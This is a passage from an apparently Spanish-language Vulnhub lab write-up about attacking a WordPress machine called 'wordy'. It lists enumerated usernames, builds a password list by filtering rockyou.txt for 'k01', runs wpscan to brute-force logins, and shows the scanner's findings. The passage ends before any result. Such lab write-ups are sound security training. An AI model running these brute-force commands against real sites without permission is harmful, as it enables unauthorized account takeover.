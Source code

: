 ```bash
admin
sarah
graham
mark
jens
```
Vulnhub nos sugiere copiar una lista de contraseñas del archivo rockyout que contenga 'k01', con el fin de agilizar nuestra tarea
```bash
cat /usr/share/wordlists/rockyou.txt | grep k01 > password.txt
```
Ahora procederemos a buscar las contraseñas de estos usuarios.
```bash
wpscan --url http://wordy/ -U users -P password.txt                    
```
Resultado:
```bash
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://wordy/ [10.0.1.17]
[+] Started: Thu May  9 14:20:05 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.25 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://wordy/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://wordy/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://wordy/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.1.1 identified (Insecure, released on 2019-03-13).
 | Found By: Rss Generator (Passive Detection)
```